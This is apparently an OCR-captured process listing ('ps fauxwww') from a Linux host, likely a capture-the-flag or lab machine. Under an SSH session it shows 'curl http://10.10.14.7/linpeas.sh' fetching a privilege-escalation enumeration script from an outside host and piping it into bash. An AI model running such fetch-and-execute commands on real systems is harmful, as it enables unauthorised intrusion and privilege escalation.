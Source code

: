```
root          1  0.0  0.2  24428  2420 ?        Ss   01:49   0:00 /sbin/init                                          
root        323  0.0  0.0  17224   636 ?        S    01:49   0:00 upstart-udev-bridge --daemon[0m                                                                                                                                            
root        328  0.0  0.1  21988  1744 ?        Ss   01:49   0:00 /sbin/udevd --daemon[0m                             
root        559  0.0  0.1  21864  1236 ?        S    01:49   0:00  _ /sbin/udevd --daemon[0m                          
root        560  0.0  0.1  21868  1264 ?        S    01:49   0:00  _ /sbin/udevd --daemon[0m                          
syslog      573  0.0  0.1 249464  1524 ?        Sl   01:49   0:00 rsyslogd -c5                                        
102         625  0.0  0.1  24084  1240 ?        Ss   01:49   0:00 dbus-daemon[0m --system --fork --activation=upstart                                                                                                                        
root        638  0.0  0.3  79036  3204 ?        Ss   01:49   0:00 /usr/sbin/modem-manager                                                                                                                                                    
root        651  0.0  0.1  21180  1720 ?        Ss   01:49   0:00 /usr/sbin/bluetoothd                                
avahi       676  0.0  0.0  32172   472 ?        S    01:49   0:00  _ avahi-daemon[0m: chroot helper                                                                                                                                          
root        680  0.0  0.6 174448  6524 ?        Ssl  01:49   0:00 NetworkManager                                                                                                                                                             
root        710  0.0  0.3 104088  3944 ?        Ss   01:49   0:00 /usr/sbin/cupsd -F                                                                                                                                                         
root        751  0.0  0.0  15180   396 ?        S    01:49   0:00 upstart-socket-bridge --daemon[0m                                                                                                                                          
root        838  0.0  0.3 203500  3896 ?        Sl   01:49   0:00 /usr/lib/policykit-1/polkitd --no-debug                                                                                                                                    
root        942  0.0  0.2  49952  2856 ?        Ss   01:49   0:00 /usr/sbin/sshd -D                                                                                                                                                          
hype       4054  0.1  0.1  92372  1672 ?        S    08:23   0:00      _ sshd: hype@pts/0                                                                                                                                                    
hype       4055  0.1  0.8  31700  8796 pts/0    Ss   08:23   0:00          _ -bash                                    
hype       4230  0.0  0.3  92920  3752 pts/0    S+   08:24   0:00              _ curl http://10.10.14.7/linpeas.sh                                                                                                                           
hype       4231  0.7  0.3  18880  3776 pts/0    S+   08:24   0:00              _ bash                                                                                                                                                        
hype       8446  0.0  0.2  18880  2792 pts/0    S+   08:25   0:00                  _ bash                                                                                                                                                    
hype       8450  0.0  0.1  22464  1220 pts/0    R+   08:25   0:00                  |   _ ps fauxwww                   
hype       8449  0.0  0.2  18880  2568 pts/0    S+   08:25   0:00                  _ bash                             
root       1031  0.0  0.0  19976   976 tty4     Ss+  01:49   0:00 /sbin/getty -8 38400 tty4                           
root       1039  0.0  0.0  19976   976 tty5     Ss+  01:49   0:00 /sbin/getty -8 38400 tty5                           
root       1047  0.0  0.0  19976   972 tty2     Ss+  01:49   0:00 /sbin/getty -8 38400 tty2                           
```